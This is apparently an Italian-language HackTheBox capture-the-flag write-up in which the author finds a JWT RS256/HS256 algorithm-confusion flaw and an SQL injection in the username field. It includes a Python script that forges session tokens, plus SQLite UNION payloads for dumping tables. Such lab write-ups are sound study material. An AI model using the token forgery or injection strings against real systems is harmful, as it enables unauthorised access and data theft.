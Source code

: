 ## Information Gathering

Vedo una web app molto basica con un form di login (con la possibilità di registrare utenti), quindi post-login una home page molto basilare in cui viene plottato il nome con cui mi sono registrato. 

## Testing Entry Points

Inizio a testare i vari entry points che ho rintracciato, partendo con le vulnerabilità della tipologia SQLinjection, XSS ed XXE. Vedo che tuttavia nulla funziona. 

A questo punto scarico il codice sorgente della web app disponibile da hackthebox. Lo carico su WebStorm, effettuo tutte le connessioni al DB, Node, ecc... Quindi eseguo in localhost ma non noto niente di particolare... A questo punto leggo il codice sorgente alla ricerca di vulnerabilità e vedo che:

 * la verifica del JWT avviene tramite RS256 ma anche HS256
 * la ricerca dell'username a DB tramite JWT avviene in maniera incontrollata
 
 Da questo comprendo che:
 
  * posso usare la chiave pubblica (nascosta dentro al payload del JWT) per firmare JWT validi con metodo HS256
  * posso inserire sintassi per eseguire sqlinjection dentro al campo username
  
## Exploitation

Con i rilevamenti descritti nel punto precedente sono in grado di scrivere il seguente script in Python:

```
import jwt
import requests

public = open('key.pem', 'r').read()

while 1:

  payload = raw_input("Payload: ")

  jwt_res = jwt.encode({"username":payload}, key=public, algorithm='HS256')

  header = {"Cookie": "session="+jwt_res}

  r = requests.get('http://docker.hackthebox.eu:32435/', headers=header)

  print r.text

```

 * il file "key.pem" contiene la chiave pubblica in forma corretta estratta dal JWT
 * nel cookie inserisco il JWT craftato con la query
 
A questo punto estraggo il numero delle tabelle presenti, il loro nome, le colonne presenti nella tabella che mi interessa ed infine i valori presenti nella tabella di mio interesse (ricordando di effettuare l'escape del carattere ', altrimenti interpretato da python) - Fonte [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):

```
* ABC\' order by 6 --
* ABC\' union SELECT 1,sql,3 FROM sqlite_master WHERE type!=\'meta\' AND sql NOT NULL AND name NOT LIKE \'sqlite_%\' AND name=\'<TABLE>\' --
* ABC\' union SELECT 1,<COLUMN>,3 FROM <TABLE> --
```

Ed ecco il flag! 
